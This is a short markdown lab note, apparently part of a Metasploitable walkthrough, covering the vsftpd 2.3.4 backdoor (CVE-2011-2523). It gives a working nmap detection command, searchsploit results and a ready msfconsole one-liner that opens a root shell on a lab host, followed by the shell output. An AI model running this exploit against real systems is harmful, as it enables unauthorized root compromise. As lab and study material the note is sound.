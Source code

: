 ### VSFTPD (PORT 21) - CHECK

This port can be used as a backdoor, it is not by design, but exploitable by using msfconsole (metasploit).

**Vuln**
There’s a backdoor on port 6200 opened by the vsftpd service, it’s added on vsftpd download archive on version 2.3,4 between June 30th 2011 & July 1st 2011.

**Nmap script**
````
$ nmap -script ftp-vsftpd-backdoor -p 21 192.168.56.101
````

*Port 21 // scan results*
````
PORT   STATE SERVICE
21/tcp open  ftp
| ftp-vsftpd-backdoor: 
|   VULNERABLE:
|   vsFTPd version 2.3.4 backdoor
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2011-2523  BID:48539
|       vsFTPd version 2.3.4 backdoor, this was reported on 2011-07-04.
|     Disclosure date: 2011-07-03
|     Exploit results:
|       Shell command: id
|       Results: uid=0(root) gid=0(root)
|     References:
|       https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/unix/ftp/vsftpd_234_backdoor.rb
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-2523
|       http://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html
|_      https://www.securityfocus.com/bid/48539
````
**Searchsploit**
````
$ searchsploit vsftpd
````

````
--------------------------------------------------------------- ----------------------------------
 Exploit Title                                                 |  Path
--------------------------------------------------------------- ----------------------------------
vsftpd 2.0.5 - 'CWD' (Authenticated) Remote Memory Consumption | linux/dos/5814.pl
vsftpd 2.0.5 - 'deny_file' Option Remote Denial of Service (1) | windows/dos/31818.sh
vsftpd 2.0.5 - 'deny_file' Option Remote Denial of Service (2) | windows/dos/31819.pl
vsftpd 2.3.2 - Denial of Service                               | linux/dos/16270.c
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)         | unix/remote/17491.rb
--------------------------------------------------------------- ----------------------------------
````

**Metasploitable // vsftpd 2.3.4 backdoor**
````
$ msfconsole -q -x 'use exploit/unix/ftp/vsftpd_234_backdoor;set RHOST 192.168.56.101;set payload cmd/unix/interact;exploit'
````

**vsftpd backdoor**

````
[*] No payload configured, defaulting to cmd/unix/interact
RHOST => 192.168.56.101
payload => cmd/unix/interact
[*] 192.168.56.101:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.56.101:21 - USER: 331 Please specify the password.
[+] 192.168.56.101:21 - Backdoor service has been spawned, handling...
[+] 192.168.56.101:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (0.0.0.0:0 -> 192.168.56.101:6200) at yyyy-mm-dd hh:mm:ss +TMZN

whoami
root
        
uname -a

Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
````
